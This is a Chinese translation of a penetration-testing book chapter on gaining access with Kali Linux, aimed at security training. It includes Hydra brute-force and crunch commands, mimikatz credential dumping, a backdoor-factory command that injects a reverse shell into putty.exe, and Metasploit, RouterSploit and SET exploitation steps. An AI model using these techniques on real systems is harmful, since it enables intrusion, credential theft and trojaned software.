







# 第十四章：获取网络访问

在这一章中，我们将深入了解如何利用各种技术和隐蔽通道获取对被入侵系统的访问权限。我们将学习获取对被入侵系统访问权限所需的各种技能，包括密码破解、生成后门和使用欺骗性社会工程技术。

我们将在本章中涵盖以下主题：

+   获取远程访问

+   破解密码

+   使用后门工厂创建后门

+   使用 Metasploit 利用远程服务

+   使用 RouterSploit 黑客嵌入式设备

+   使用 SET 进行社会工程

# 获取远程访问

到目前为止，在本书中，我们已经看到了各种技术和工具，可以用来收集有关目标的信息并枚举系统上运行的服务。我们还瞥见了使用 OpenVAS 进行漏洞评估的过程。在遵循了这些阶段之后，我们现在应该已经有足够的信息来实际上入侵系统并获取访问权限。

可以通过以下两种方式之一实现对远程系统的访问：

+   直接访问

+   路由器后面的目标

# 直接访问



在这种类型中，攻击者直接访问目标系统。攻击者基本上知道目标系统的 IP 地址并远程连接到它。攻击者然后利用目标系统上的现有漏洞来进一步获取访问权限。

# 路由器后面的目标


在这种情况下，目标机器位于启用了**网络地址转换**（**NAT**）的路由器或防火墙后面。目标系统具有私有 IP 地址，并且不能直接通过互联网访问。攻击者只能到达路由器/防火墙的公共接口，但无法到达目标系统。在这种情况下，攻击者将不得不通过电子邮件或信使向受害者发送某种有效载荷，一旦受害者打开有效载荷，它将通过路由器/防火墙返回到攻击者的反向连接。

# 破解密码

密码是用于将用户认证到系统中的基本机制之一。在我们的信息收集和枚举阶段，我们可能会遇到目标上运行的各种受密码保护的服务，如 SSH、FTP 等。为了获取对这些服务的访问权限，我们将使用以下一些技术来破解密码：

+   **字典攻击**：在字典攻击中，我们向密码破解器提供一个包含大量单词的文件。密码破解器然后尝试将提供的文件中的所有单词作为目标系统上的可能密码。如果匹配成功，我们将得到正确的密码。在 Kali Linux 中，有几个可以用于密码破解的字典。这些字典位于`/usr/share/wordlists`中，如下图所示：


+   **暴力破解攻击**：如果密码不是我们提供的字典中的任何一个单词，那么我们可能需要发起一个暴力破解攻击。在暴力破解攻击中，我们首先指定最小长度、最大长度和自定义字符集。密码破解器然后尝试使用这个字符集中形成的所有排列和组合作为目标上的可能密码。然而，这个过程需要大量资源和时间。

+   **彩虹表**：密码从不以纯文本格式存储在系统中。它始终使用某种算法进行哈希处理，以使其无法读取。彩虹表中包含给定字符集内密码的预先计算的哈希值。如果我们从目标系统获得密码哈希值，那么我们可以将它们输入到彩虹表中。彩虹表将尝试在其现有哈希表中寻找可能的匹配项。这种方法的速度比暴力破解要快得多，但需要大量的计算资源和存储空间来存储彩虹表。此外，如果密码哈希值与盐一起存储，彩虹表将被击败。

# 识别哈希

正如我们在前一节中学到的，密码从不以纯文本格式存储，而是始终使用某种算法进行哈希处理。为了破解密码哈希，我们首先必须确定使用了什么算法来对密码进行哈希处理。Kali Linux 有一个名为`hash-identifier`的工具，它以密码哈希作为输入，并告诉我们可能使用的哈希算法，如下图所示：

！[](img/5ea1c199-1562-47f2-9a65-33191e305d05.png)

# 破解 Windows 密码

Windows 操作系统将密码存储在一个名为**安全帐户管理器**（**SAM**）的文件中，使用的哈希算法类型是 LM 或 NTLM。

我们首先利用远程 Windows 系统中的 SMB 漏洞，并使用 Metasploit 获得 Meterpreter 访问，如下图所示。Meterpreter 有一个非常有用的实用程序称为`mimikatz`，可以用来从受损系统中转储哈希或甚至纯文本密码。我们使用命令`load mimikatz`来启动此工具。然后我们使用命令`kerberos`来显示纯文本凭据。我们得知用户`shareuser`的密码是`admin`。使用`msv`命令，我们还可以从受损系统中转储原始哈希。

！[](img/e48e8443-7460-457a-a3da-5963f34ca50e.png)

# 密码分析

在前一节中，我们已经了解了字典攻击。在与组织的特定参与过程中，我们可能会确定所有密码都使用某种特定模式。因此，我们可能希望有一个与特定模式相匹配的单词列表。密码分析帮助我们生成与特定模式对齐的单词列表。

Kali Linux 有一个名为 crunch 的工具，可以帮助我们使用自定义模式生成单词列表。

```
crunch 3 5 0123456789abcdefghijklmnopqrstuvwxyz
```

上述语法将生成一个单词列表，其中单词的最小长度为`3`，最大长度为`5`，并包含来自字符集`0123456789abcedefghijklmnopqrstuvwxyz`的所有可能的排列和组合。有关更多帮助，我们可以使用`man crunch`命令参考 crunch 帮助，如下图所示：

！[](img/28d696ec-ba0d-464c-bc8c-74169eb15601.png)

# 使用 Hydra 进行密码破解

Hydra 是默认 Kali Linux 安装的一个非常强大和高效的密码破解工具。Hydra 能够破解各种协议的密码，如 FTP、SSH、HTTP 等。Hydra 可以从终端启动，如下图所示：

```
hydra -l user -P passlist.txt ftp://192.168.25.129
```

上述命令将对运行在 IP 地址`192.168.25.129`上的 FTP 服务器发起密码破解攻击，并尝试使用单词列表`passlist.txt`中的所有密码。

！[](img/8336a925-45e9-433d-ae5e-7b330f546345.png)

# 使用后门工厂创建后门

快速查看单词*后门*的词典含义给我们带来了*通过间接或不诚实手段实现*。在计算世界中，后门是隐藏的，用于秘密进入系统的东西。例如，如果我们从某个不知名的人那里得到一个普通的可执行文件，我们可能会感到怀疑。但是，如果我们得到一个看起来很真实的安装程序，我们可能会执行它。然而，该安装程序可能有一个隐藏的后门，可能会打开我们的系统给攻击者。

创建后门通常涉及使用我们的 shellcode 对真实的可执行文件进行修补。Kali Linux 有一个特殊的工具`backdoor-factory`，可以帮助我们创建后门。`backdoor-factory`可以从终端启动，如下图所示：


现在我们执行如下图所示的命令：

```
root@kali:~# backdoor-factory -f /root/Desktop/putty.exe -s reverse_shell_tcp_inline -H  192.168.25.128 -P 8080
```

这个命令将打开位于`/root/Desktop`的`putty.exe`文件，将反向 TCP shell 注入可执行文件，并配置后门连接到 IP 地址`192.168.25.128`的端口`8080`。


# 利用 Metasploit 利用远程服务

在我们继续利用远程目标系统上的服务之前，我们必须知道所有服务正在运行的情况以及它们的确切版本是什么。我们可以通过快速进行 Nmap 扫描来列出服务版本信息，如下图所示：


前面的结果显示有许多正在运行的服务，我们可以利用 Metasploit 进行攻击。

# 利用 vsftpd

通过 Nmap 扫描和枚举，我们得知我们的目标正在运行 FTP 服务器。服务器版本是 vsftpd 2.3.4，活动在端口`21`上。我们使用`msfconsole`命令打开 Metasploit 框架，然后搜索与 vsftp 匹配的任何漏洞，如下图所示。Metasploit 有一个`vsftpd_234_backdoor`漏洞，我们可以用来攻击目标。


我们选择 vsftp 漏洞，并将`RHOST`参数设置为目标的 IP 地址。然后我们运行漏洞，如下图所示。漏洞利用成功，并打开了一个命令 shell。使用`whoami`命令，我们可以知道我们已经获得了对目标的 root 访问权限。


# 利用 Tomcat

通过 Nmap 扫描和枚举，我们得知我们的目标正在运行 Apache Tomcat Web 服务器。它在端口`8180`上活动。我们可以通过浏览器在端口`8180`上击中目标 IP，并查看 Web 服务器的默认页面，如下图所示：



现在我们打开 Metasploit 控制台，并搜索与 Tomcat 服务器匹配的任何漏洞，如下图所示：


我们将使用`tomcat_mgr_deploy`漏洞，如下图所示。我们隐式选择`java/meterpreter/reverse_tcp`作为漏洞载荷，然后配置其他选项，如 RHOST、LHOST、默认用户名/密码和目标端口。



漏洞利用成功，并给我们一个 Meterpreter 会话。

# 使用 RouterSploit 黑客嵌入式设备

在前一节中，我们学习了如何有效地使用 Metasploit 来利用远程服务。目标主要是 Windows 和 Linux 操作系统。互联网连接设备的数量正在迅速增加。这些设备具有嵌入式固件，也容易受到攻击。

RouterSploit 是一个命令行工具，可用于攻击嵌入式设备。但它不是默认安装在 Kali Linux 中的一部分。我们可以使用`apt-get install routersploit`命令安装 RouterSploit。安装后，可以通过在终端中输入`routersploit`来启动它，如下图所示：



RouterSploit 具有与 Metasploit 控制台非常相似的界面。我们可以使用`scanners/autopwn`选项快速扫描目标设备，如下图所示。我们只需设置目标 IP 地址并运行扫描程序。



# 使用 SET 进行社会工程学

在本章的第一节中，我们看到了两种可能的利用场景。攻击者要么直接访问目标系统，要么目标系统在路由器/防火墙后面，攻击者只能达到路由器/防火墙的公共接口。

在第二种情况下，攻击者必须向受害者发送某种有效载荷，并诱使他执行有效载荷。一旦执行，它将建立一个反向连接返回给攻击者。这是一种隐秘的技术，涉及社会工程的使用。

Kali Linux 提供了一个执行各种社会工程攻击的优秀框架。社会工程工具包可以在“应用程序|利用工具|SET”中访问。

SET 的初始屏幕显示了与社会工程攻击相关的各种选项，如下图所示：



我们选择选项`1)社会工程攻击`，然后会出现一系列攻击，如下图所示：

SET 会自动启动 Metasploit 并开始监听。一旦我们的受害者下载并执行有效载荷，一个 Meterpreter 会话就会打开，如下图所示： 

我们选择选项`4)创建有效载荷和监听器`，然后选择有效载荷`Windows Shell Reverse_TCP`。然后我们设置监听器的 IP 地址和端口，如下图所示：




# 总结

在本章中，我们介绍了各种工具和技术，用于获取对目标系统的访问权限，包括破解密码、创建后门、利用服务和发动社会工程攻击。
